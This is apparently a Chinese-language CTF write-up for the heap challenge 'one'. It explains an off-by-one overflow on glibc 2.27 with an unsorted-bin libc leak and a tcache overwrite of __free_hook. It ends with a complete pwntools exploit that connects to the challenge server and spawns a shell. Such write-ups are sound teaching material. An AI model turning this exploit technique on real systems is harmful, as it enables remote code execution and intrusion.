


# one

> 程序员在为新能源汽车编写程序时犯了一个致命的错误，你能帮他找出来吗

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.27-3ubuntu1.6|

## 解题思路

很基础的堆菜单题，在 `edit` 函数中，存在一个字节的溢出，而且是 glibc 2.27，
先用 unsorted bin 泄露libc，然后直接按照下图的样子重合堆块，打 `__free_hook` 即可。



> [!TIP]
> 题目没有给 libc，但是可以从 ELF 中的编译器信息发现是 `GCC 7.5.0-3ubuntu1~18.04`，
> 因此可以用 glibc 2.27 来打。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
def GOLD_TEXT(x): return f'\x1b[33m{x}\x1b[0m'
EXE = './one'

def payload(lo: int):
    global t
    if lo:
        t = process(EXE)
        if lo & 2:
            gdb.attach(t)
    else:
        t = remote('45.40.247.139', 24814)
    elf = ELF(EXE)
    libc = elf.libc

    def create(idx: int, size: int, buf: bytes):
        t.sendlineafter(b'3.test an command', b'1')
        t.sendlineafter(b'index', str(idx).encode())
        t.sendlineafter(b'size', str(size).encode())
        t.sendafter(b'the command', buf)

    def delete(idx: int):
        t.sendlineafter(b'3.test an command', b'2')
        t.sendlineafter(b'which one?\n', str(idx).encode())

    def test(idx: int) -> bytes:
        t.sendlineafter(b'3.test an command', b'3')
        t.sendlineafter(b'which one?\n', str(idx).encode())
        return t.recvuntil(b'\nFinish', True)

    def edit(idx: int, buf: bytes):
        t.sendlineafter(b'3.test an command', b'4')
        t.sendlineafter(b'which', str(idx).encode())
        t.sendafter(b'what', buf)

    # login
    t.recvuntil(b'rebot.\n')
    num1, num2 = map(int, t.recvuntil(b'=', True).split(b'+'))
    t.sendline(str(num1 + num2).encode())

    # leak libc with unsorted bin
    create(8, 0x430, b'skip')
    create(7, 0x20, b'guard')
    delete(8)
    create(8, 0x430, b'\n')
    # notice first char is overwritten to '\n'
    libc_base = u64(test(8) + b'\0\0') - 0x3ebc0a
    success(GOLD_TEXT(f'Leak libc_base: {libc_base:#x}'))
    libc.address = libc_base

    # layout heap to overlap
    create(0, 0x38, b'skip')
    create(1, 0x38, b'skip')
    create(2, 0x38, b'skip')
    create(3, 0x38, b'skip')
    # leave entry chain to be 2 -> 3
    delete(3)
    delete(2)
    # off-by-one on size of chunk 1 to overlap chunk 1 and 2
    edit(0, b'/bin/sh'.ljust(0x38, b'\0') + p8(0x81))
    # now chunk 1 get larger, we free it and alloc it back to forge chunk 2
    delete(1)
    create(1, 0x78, flat({ 0x30: [
        0, 0x41,
        libc.symbols['__free_hook'], 0,
    ]}, filler=b'\0'))
    # now entry chain is 2 -> __free_hook
    create(4, 0x38, b'skip')
    # finally write system on __free_hook and call free("/bin/sh") to trigger shell
    create(5, 0x38, p64(libc.symbols['system']))
    delete(0)

    t.clean()
    t.interactive()
    t.close()
```


